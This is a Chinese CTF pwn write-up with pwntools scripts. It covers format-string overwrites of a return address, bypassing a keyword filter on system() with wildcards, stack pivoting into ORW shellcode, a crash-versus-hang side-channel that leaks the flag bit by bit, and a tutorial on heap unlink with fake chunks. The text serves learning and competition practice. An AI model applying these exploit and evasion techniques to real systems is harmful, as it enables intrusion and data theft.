

#### 1:fmt(选拔赛)

一道栈上格式化字符串的题目.首先来看看保护:

```assembly
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

got表可写,不过没啥用.pie没开,不过有格式化字符串漏洞的话开了也没啥用.

接下来是程序:

```c++
unsigned __int64 vuln()
{
  int i; // [rsp+Ch] [rbp-114h]
  char buf[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  for ( i = 3; i; --i )
  {
    puts("input >");
    read(0, buf, 0xA0uLL);
    printf(buf);
  }
  return v3 - __readfsqword(0x28u);
}
```

可以看到有一个可以用三次的格式化字符串漏洞,没有栈溢出.那么问题来了,canary在防谁?

~~哈哈,我也不知道~~

言归正传,在程序内还有一个后门函数.不过这个后门函数有一些过滤机制:

```c++
unsigned __int64 what()
{
  char s[8]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v2; // [rsp+8h] [rbp-28h]
  __int64 v3; // [rsp+10h] [rbp-20h]
  __int64 v4; // [rsp+18h] [rbp-18h]
  __int64 v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  puts("please write your command");
  fgets(s, 32, stdin);
  s[strcspn(s, "\n")] = 0;
  if ( (unsigned int)check(s) )
    puts("no!");
  else
    system(s);
  return v6 - __readfsqword(0x28u);
}
```

于是我们的目标就很明确了:通过格式化字符串漏洞,设法修改程序执行流,执行后门函数并绕过检查机制,并最终获取flag.当然,栈上格式化字符串漏洞我们已经很熟悉了,所以问题主要还是在绕过检查上.

那么开始编写脚本.首先通过调试确定栈地址和canary地址的位置(虽然canary不一定能用上,不过反正闲着也是闲着)

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p'
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))

```

那么接下来就是向返回地址写入后门函数的地址了.这里我选择直接跳转到`system(s)`的位置,这样就可以直接跳过检查的部分.不过这又带来一个问题:我们需要同时控制`rbp`到一个合适的位置,以使`[rbp-30h]`的位置正好是我们传入的`/bin/sh\x00`字符串.不过这题给了三次格式化字符串,所以显然是能够完成这些操作的.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p' #泄露各种地址
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))


payload2=b'%17c%10$hhn     '+p64(ret_add) #使用%hhn只编辑ret地址的最后两位
r.send(payload2)
pause()
rbp=(ret_add-0x8)%0x100-0x50 #这算是栈迁移吗?
payload3=b'%'+str(rbp)+b'c%10$hhn     '+p64(ret_add-0x8)+b'a'*0x78+b'/bin/sh\x00'
#bss-0x98

r.send(payload3)

r.interactive()
```

结果程序触发了canary机制,直接中断了.原来是在我们移动了`rbp`之后,栈上存储的canary就相对rbp不知道跑哪里去了.理论上来说我们可以把泄露的canary值也给塞进第三段payload,不过这里我采用了另一个方案:

```assembly
$ awk '{print}' /fl?g
flag{th15_15_fak0_f1ag}
```

利用通配符机制,绕过单词过滤.

首先,题目过滤了以下单词: flag sh cat tac *

```c++
__int64 __fastcall check(const char *a1)
{
  _BOOL4 v2; // [rsp+1Ch] [rbp-14h]
  int v3; // [rsp+20h] [rbp-10h]
  int v4; // [rsp+24h] [rbp-Ch]
  int v5; // [rsp+28h] [rbp-8h]

  v2 = strstr(a1, "flag") != 0LL;
  v3 = (strstr(a1, "sh") != 0LL) + v2;
  v4 = (strstr(a1, "cat") != 0LL) + v3;
  v5 = (strstr(a1, "tac") != 0LL) + v4;
  return (unsigned int)(strchr(a1, 42) != 0LL) + v5;
}
```

其中`*`是通配符,指的是任意数量的任意字符.类似的还有`?`,可以用来代替单个任意字符.

这样的话,我们就不需要在执行流层面绕过保护机制了,直接跳转到`what()`的函数入口,正常执行即可.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

system_add=0x401411

r=process("./pwn")
#gdb.attach(r)
#pause()

r.recvuntil(">\n")
payload1=b'%p %41$p'
r.send(payload1)
leak=r.recvuntil('00i')
ret_add=int(leak[:14],16)+0x118
leak_canary=int(leak[15:-1],16)

print(hex(ret_add))
print(hex(leak_canary))


#payload2=b'%17c%10$hhn     '+p64(ret_add)
payload2=b'a'
r.send(payload2)
pause()
bss=(ret_add-0x8)%0x100-0x78
#payload3=b'%'+str(bss)+b'c%10$hhn     '+p64(ret_add-0x8)+b'a'*0x50+b'/bin/sh\x00'+b'a'*0x28+p64(leak_canary)
#bss-0x98

payload3=b'%4971c%10$hn    '+p64(ret_add)
r.send(payload3)

r.interactive()
```

另外把canary放进去的方案也试过,不过没成功.也许其他师傅可以试试这个方案能不能打通.

12.01修改:似乎我这个方案也不能成功打通...就很奇怪.在程序成功进入what,输入命令并执行后就直接eof了.之后我会再想想办法.

#### 2又一道orw

简单的说,就是一道线上就是莫名其妙过不了的orw.于是只好把解题脚本废物利用一下,试一试侧信道爆破

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#libc=ELF("./libc-2.27.so")
r=remote("node5.anna.nssctf.cn",27599)
#r=process("./pwn")
#gdb.attach(r)
#pause()
#00601000-00602000
bss_add=0x601A00
read_add=0x400931
def solve_random():#题目的随机数范围是0~49,尝试次数是100次,我就直接一直猜同一个数了
	r.recvuntil("please input a guess num:\n")
	while True:
		r.sendline(b"25")
		recv_=r.recv()
		if "good guys" in recv_:
			return


solve_random()
r.interactive()
payload1=b'a'*0x20+p64(bss_add+0x20)+p64(read_add)+"\x00"*0x10
r.send(payload1)
set_rdx=asm('''
mov     edx, 0x200 ;
lea rax,[rbp-0x100] ;	
ret
nop
nop
nop
''')

print(len(set_rdx))
payload2=set_rdx+b'a'*0x10+p64(bss_add+0x200-0x8)+p64(bss_add)+p64(read_add+0x9)+"\x00"*0x8
r.send(payload2)

orw=shellcraft.open('/flag')
orw+=shellcraft.read(3,bss_add+0x400,0x50)
orw+=shellcraft.write(1,bss_add+0x400,0x50)
payload3=asm(orw).ljust(0x100,'\x00')+p64(0)+p64(bss_add+0x100-0x8)
r.send(payload3)
r.interactive()
```

这题是啥保护都没开的,所以我直接栈迁移到bss段,然后写了个0x200的超大`read()`,然后再栈迁移过去进行orw.

整个流程在线下进行的相当顺利,但线上刚把payload1发过去就会eof(就很神秘).

既然这道题算是白写了,那就顺便试试侧信道吧(其实是找不到合适的题)

#### 3:orw,但是没有w

现在,让我们假装这道题的沙箱把`write`,`sendfile`之类的东西都给禁用了.

在这种情况下,程序能向我们传达的唯一一个有效信息就是----它有没有在工作.假如我们设计一个恰当的payload,就能让程序在某些情况下崩溃,从而返回EOF,以及收到连接断开的信息;在另一些情况下则陷入死循环.这样,程序每次运行就可以向我们传递1bit的信息.

既然如此,我们可以设计一个这样的机制:我们向程序发送一个数,告诉它我们想知道flag的第几位,如果这一位为0,则程序崩溃;如果这一位为1,则程序进入死循环.之后我们反复执行这一操作,直到接收完整的flag.

那么为了实现这一点,我们需要构造一个合适的payload:

```assembly
    mov rsi, 0x601E00;
    add rsi, [offset1]-1 ;
    mov rdx, byte [rsi] ; 
    shr rdx, [offset2] ;
    and rdx, 1 ;
    cmp rdx, 0 ;
    je end_if;
    loop:
        jmp loop ;
    end_if:
```

其中`offset1`是访问的字节的偏移(第几个字母),`offset2`是字节内二进制位的偏移.

` mov rsi, 0x601E00 ;`将`rsi`移动到flag起始的地址

` add rsi, [offset1]-1 ;`根据我们事先确定的偏移,再次移动`rsi`的位置(如0则是第一个字母,1则是第2个字母)(那个-1是不知道怎么回事,读取到的flag总是偏后面一个字节,于是就给它减了1)

`mov rdx, byte [rsi] ;`将`rsi`存储的内容赋值给`rdx`(其实直接在`rsi`上操作也行)

`shr rdx, [offset2] ;`通过将`rdx`右移,从而将第`offset2`位移动到最低位

`and rdx, 1 ;`将`rdx`与`0b1`与运算,只保留最低位

`cmp rdx, 0 ; je end_if ; `将`rdx`与`0b0`比较,如果为真则跳转到`end_if`

`loop: jmp loop ; `否则顺序执行,进入死循环

`end_if:`使程序跳转到一个没有后续语句的地址进行执行,触发eof

这样,我们就可以通过侧信道泄露的方法逐位获取flag

当然,让我们手动完成这一切显然是不可能的,所以我们利用python的自动错误处理,编写脚本如下:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#libc=ELF("./libc-2.27.so")
#r=remote("node5.anna.nssctf.cn",27599)

#gdb.attach(r)
#pause()
#00601000-00602000
bss_add=0x601A00
read_add=0x400931
def solve_random():
	r.recvuntil("please input a guess num:\n")
	for i in range(99): 
		r.sendline(b"25")
		recv_=r.recv()
		if "good guys" in recv_:
			return 0

	return 1
	
def getflag(x,y): #将整个程序封进函数里
    _=solve_random()
    if _==1:
        return 2 #如果试了100次都没猜对,则返回异常给主函数(虽然说这是个脚本,没有main函数,但为了方便我就这么叫了)
    #r.interactive()
    try:
        payload1=b'a'*0x20+p64(bss_add+0x20)+p64(read_add)+"\x00"*0x10
        r.send(payload1)
        set_rdx=asm('''
mov     edx, 0x200 ;
lea rax,[rbp-0x100] ;	
ret
nop
nop
nop
''')


        payload2=set_rdx+b'a'*0x10+p64(bss_add+0x200-0x8)+p64(bss_add)+p64(read_add+0x9)+"\x00"*0x8
        r.send(payload2)

        orw=shellcraft.open('/flag')
        orw+=shellcraft.read(3,bss_add+0x400,0x50)

        w1='''

    mov rsi, 0x601E00;
    add rsi, '''+str(x-1)+b' ;'

        w2='''
    mov rdx, byte [rsi] ; 
    shr rdx, '''+str(y)+''';'''
        w3=''' 
    and rdx, 1 ;
    cmp rdx, 0 ;
    je end_if;
    loop:
        jmp loop ;
    end_if:
'''
        orw+=w1
        orw+=w2
        orw+=w3
        #orw+=shellcraft.write(1,bss_add+0x400,0x50)
        payload3=asm(orw).ljust(0x100,'\x00')+p64(0)+p64(bss_add+0x100-0x8)
#        print(len(payload3))
 #       pause()
        r.send(payload3)
 #       pause()
    except EOFError:
        return 2 #如果程序在发送payload3之前eof,则返回异常给主函数
    try:
 #       r.send(payload3)
        r.recv(timeout=0.5)
        return 1 #根据超时还是eof,返回不同的值
    except EOFError:
        return 0

flag_b=[]
for h in range(30):
    print(h)
    i=0
    while i<8:
#        sleep(1)
        r=process("./pwn")
#        gdb.attach(r)
#        pause()
        flag_bit=getflag(h,i)
        if flag_bit==0 or flag_bit==1: #如果得到了正确的值
            print(flag_bit) 
            flag_b.append(flag_bit) #添加到flag列表
            i+=1 #继续泄露下一位
        r.close()
        #如果没有泄露成功,程序就会重新尝试泄露这一位
    
flag=''
flag_ord=0
for j in range(0,8*0x1e,8):
    flag_ord=0
    for k in range(8):
        flag_ord*=2
        flag_ord+=flag_b[j+7-k]

    print(chr(flag_ord))
    flag+=chr(flag_ord)

print(flag_b)
print(flag)
```

顺便一提,这个方案需要~~焚香沐浴,祷告更衣,赞美欧姆弥赛亚,赞美奸奇,赞美破碎之神,赞美冯诺依曼,赞美图灵,赞美中央处理器,赞美内存和虚拟内存,赞美晶体管集成电路,赞美电子~~反复调试,找一个不可见字符看起来比较少的参数多尝试几次.(当然,可能也和我的本地环境不太稳定有关系)

附上表现最好的一次:(th15_15_fak0_f1ag) 



写完以后,我去翻了知识库.结果发现知识库是另一种思路:将本地猜测的flag的某个字母发过去,然后进行比较.如果发送的字母小于等于实际的字母则进入死循环.然后在外面写了个二分去搜索flag.(反正都是O(n),效率相差应该不会太大) (不过知识库里的方案即使是最坏情况效率也比我这个高,可见字符一共有95个,所以在最坏情况下需要查找7次,还是比我的方案的泄露8次要快) (实际上我的方法的效率是知识库里的方法的0.7~0.9倍,大概)

#### 4:堆

自从我接触到计算机,"堆栈"这个词就在我的视野中反复出现.不过从初中到现在,栈这种东西已经评鉴的够多了,可我对堆的理解仅限于听说过这个词...

所以说堆是什么呢?

##### 堆

> 堆（heap）是程序运行时用于动态分配内存的区域。堆的特点是内存可以在程序运行期间随时分配和释放，适合用于大小未知或需要灵活内存管理的场景。堆内存的分配和释放通常通过 `malloc()` 和 `free()` 等函数进行。

总之,和它的名字一样,堆就是一堆内存块(chunk)的总和.比如我们在c++里写了个 `int *a; new(*a[50]);`(希望语法没错),这个new出来的内存就是从堆里拿出来的.

然后呢,chunk可以简单的分成两类:

- 正在用的
- 没有在用的

正在使用的chunk大概是这样的:


其中标志位为chunk大小这一地址(chunk+0x8)的最后三个二进制位,它们从左往右分别对应着A(Non-main arena 表示该 chunk 是否属于主分配区)M(Memory mapped 表示该 chunk 是否由 `mmap` 分配)P(Previous in use 前一个 chunk 是否正在使用) 这三个标志位都是0代表伪1代表真.

另外,对于一个chunk,指向它的指针应当指向它的开头(即chunk地址)其他数据的地址**都是根据这个指针偏移得到的**.(这对于等下的unlink的理解很重要)

当然,对于用户而言,我们并不希望它能(或者不小心)直接访问并修改chunk的大小,标志位之类的东西.所以我们返回给用户的指针实际上是`chunk+0x10`,

然后呢,程序在申请内存后,会把这片内存的指针给找个地方存起来.之后这个指针就是找到这片内存的唯一依据.如果这个指针不见了(或者跑到别的地方去了),我们就再也找不到这片内存了.这也就是所谓的内存泄漏.

好了,关于正在使用的chunk,我们暂时只需要知道这么多.现在来看看没有在使用的chunk:    


可以看到没有在使用的chunk和在使用的并没有本质的不同(废话),唯二的区别在于它从数据域内分了`0x10`的内存用来存储前趋和后继指针,从而和其他的chunk一起形成一个双向链表的结构.对于它们的维护符合对一般的链表的维护方式.

大概就这样.接下来我们就可以去看unlink了

##### unlink

在开始之前,我想先讲几句题外话.

在浙江,有个神奇的科目叫技术,它的地位和物化生政史地完全平行,都是高考选考科目.技术自然包括信息技术,但高考肯定是没法让你抱着电脑走进考场然后交代码上去评测的,于是出题老师们发明了python版完形填空,python版阅读理解,python版句子改错,续写史山,重生之我是ide等一系列题型.

啊扯得有点远了,总之就是当年我为了高考而和这些东西搏斗时,做到过这样一道题目:

> 有一个酒店,里面有若干个房间.房间按0,1,2,3...顺序编号.为了便于管理,酒店的工作人员会将空房间的信息存储在酒店的电脑中,存储的方式如下:
>
> 首先,记录每一段连续的空房间的开头的房间号,然后记录每一段连续空房间的长度,最后将它们存储到链表中

然后呢,假设现在空闲的房间信息如下:`head--->[0,4]--->[7,2]--->...--->end`,突然,住在4号房的客人退房了,于是空闲房间就变成了`head--->[0,4]--->[4,1]--->[7,2]--->...--->end`.这时,我们发现0,1,2,3 和4是可以连接起来的,于是我们使`[0,4]->next=[4,1]->next`,再将`[0,4][1]+=[4,1][1]`,这样,房间信息就变成了`head--->[0,5]--->[7,2]--->...--->end`我们就完成了相邻的连续房间段的合并.

好了,把房间换成内存,这就是unlink.

当相邻的两段chunk都处于闲置状态时,ptmalloc就会将它们合并.而在某些条件下,我们就可以利用这个合并机制,将chunk指针修改到我们希望的地方.

现在,假设我们可以对某一个chunk(我们称它为chunk1)的数据段进行写入,并且我们可以溢出至少一位到下一个chunk的标志位(我们称它为chunk2).

接下来,我们在chunk1的数据段里构造这样的一个fakechunk:

`p64(0x0)+p64(0x40)/*这取决于我们的fakechunk有多大*/+p64(chunk0-0x18)+p64(chunk0-0x10)`

这里的`chunk0`是我们自己选定的一个地址.

之后我们填充一些字符,再把chunk2的pre_chunk_size(上一个chunk的大小)改成我们的fakechunk_size,把chunk2的标志位改成0(表示上一个chunk空闲)

这时,内存中的信息大概是这样的:


好了,这时我们`free()`掉chunk2.

程序一看,chunk2的上一个chunk是空闲的,于是程序一拍脑袋(或者说,一拍处理器)(如果你是一个程序,那么最好不要去拍正在跑你的处理器,那会很烫),"我得把这两个chunk合并起来".当然,由于chunk2现在还没进bins,所以它是没有指针指向chunk1或是我们的fakechunk的.于是程序通过pre_size找到了fakechunk的开头,然后尝试把fakechunk从存储着它的双向链表里拿出来...

当然,即使目前来看,程序的运行一切正常(?),但是堆管理体系的开发者们还是留了个心眼:程序会开始检查一大堆东西.当然,它们的主体思想都是确保fakechunk的确是一个空闲的chunk:

1. 检查与被释放chunk(fakechunk)相邻高地址的chunk(也就是chunk2)的pre_size的值是否等于被释放chunk的size大小(由于我们的伪造,当然是相等的)
2. 检查与被释放chunk相邻高地址的chunk的size的P标志位是否为0(同上)
3. 检查前后被释放chunk的fd和bk,以确定chunk的确在双链表中

接下来让我们重点来看第三步:

首先,程序通过\*fd,\*bk找到了fakechunk的"前驱节点"`chunk0-0x10`和"后继节点"`chunk0-0x18`,我们称它们为pre和nex.

然后,程序找到前驱的后继`pre+0x10`和后继的前驱`nex+0x18`

最后,程序把它们一比,发现`*chunk0==*chunk0`,完全正确!(迫真)

于是,程序将fakechunk从这个不存在的链表里删除:

1. `*(nex+0x18)=pre`
2. `*(pre+0x10)=nex`

由于这两个地址都是chunk0,所以最后的结果就是向chunk0地址内写入了chunk-0x18(`*chunk0=chunk0-0x18`)

至于这个具体怎么利用呢?可以用来改写一些指针.比如我们可以把指向chunk2的指针(p=chunk2)改成指向chunk2的指针的实际存储位置-0x18(p=&p-0x18),这样指向chunk2的指针的存储位置就在chunk2的数据段内了(准确的说,是移动了chunk2的指针,顺便泄漏掉了真正的chunk2这块内存).之后我们可以手动输入数据,将它移动到别的地方,然后编辑那个地方的内存(比如改got表之类的).

以上.

感觉知识库里写的还是有些模糊的,所以加入了一些自己的理解.
